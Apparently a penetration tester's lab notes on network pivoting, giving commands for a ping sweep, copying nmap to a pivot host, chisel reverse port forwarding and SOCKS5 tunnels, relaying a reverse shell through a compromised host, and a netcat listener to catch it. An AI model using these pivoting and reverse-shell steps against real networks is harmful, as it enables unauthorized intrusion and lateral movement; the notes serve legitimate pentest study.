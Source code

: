 
#pingsweep
- Ping sweep for loop for network identification
```bash
for i in $(seq 254); do ping 192.168.146.${i} -c1 -W1 & done | grep from 

- where c1 = 1 connection
- where w1 = timeout
example:
64 bytes from 192.168.146.2: icmp_seq=1 ttl=128 time=0.351 ms
64 bytes from 192.168.146.129: icmp_seq=1 ttl=64 time=0.045 ms
64 bytes from 192.168.146.134: icmp_seq=1 ttl=128 time=1.78 ms

```

#binaries #scp
- Typically way faster than running nmap through a proxychains tunnel
- can just pull static binaries onto system and scan from the pivot box
```bash
scp nmap pivot@10.1.1.10:/tmp

- secure copying nmap from kali machine to the pivot IP and placing into /tmp
- if ssh is open, need to put in password
```

#chiselserver
- Ran on Kali machine
```bash
./chisel_64 server --socks5 -p 1080  --reverse
2023/10/12 21:21:21 server: SOCKS5 server enabled
2023/10/12 21:21:21 server: Reverse tunnelling enabled
2023/10/12 21:21:21 server: Fingerprint b1:31:90:f2:07:a4:96:70:6f:d5:69:db:34:bd:da:11
2023/10/12 21:21:21 server: Listening on 0.0.0.0:1080...

- keep note of the fingerprint that gets spit out after
where --reverse = the server reaching out to the client which is weird in nature
```

#chiselclient 
- Ran on T1 that has internal network access
```bash
./chisel client --fingerprint b1:31:90:f2:07:a4:96:70:6f:d5:69:db:34:bd:da:11 192.168.146.134:1080 R:8000:192.168.146.40:80


Where R: == Reverse Port Forward
Where 8000 == Reverse all traffic from next statement to port 8000 on the kali machine
Where 192.168.146.40:80 == Reversing all traffic from the web server to our kali localhost:8000. Dragging it back to our physical server
```

#socksproxy #chiselclient
- just another way to do it different than above.
- gives access to everything in internal environment
- instead of port forwarding from one ip to another, socks allows for complete view of internal network
```bash
./chisel client --fingerprint b1:31:90:f2:07:a4:96:70:6f:d5:69:db:34:bd:da:11 192.168.146.129:1080 R:socks5

where R:Socks5 == Reverse Port Forward from anything utilizing proxychains socks5
where  192.168.146.134:1080 == hitting port 1080 on kali localhost and getting reverse forwarded back through the socks proxy to kali machine
where 
```

#reverseshell #proxychains
- Setting up port forwarding to allow a reverse shell to come back through 
- from T2 -> T1 -> Kali machine.
- Setup on Pivot Box T1
```bash
./chisel client --fingerprint b1:31:90:f2:07:a4:96:70:6f:d5:69:db:34:bd:da:11 192.168.146.129:1080 0.0.0.0:9999:192.168.146.129:9999

where 192.168.146.129:1080 == chisel server ip address and port
where 0.0.0.0:9999 == T1 any ip address that is hitting port 9999
where 192.168.146.129:9999 == Will be redirected to the kali machine on port 9999

- to utilize this can setup a 
```

#listener
- netcat listener on port 9999 attacker machine to catch any reverse shell
```bash
[root💀/opt/chisel/archive] [192.168.146.129] [2023-10-12 21:53:37] 
 └─╼ # nc -lvnp 9999
listening on [any] 9999 ...

```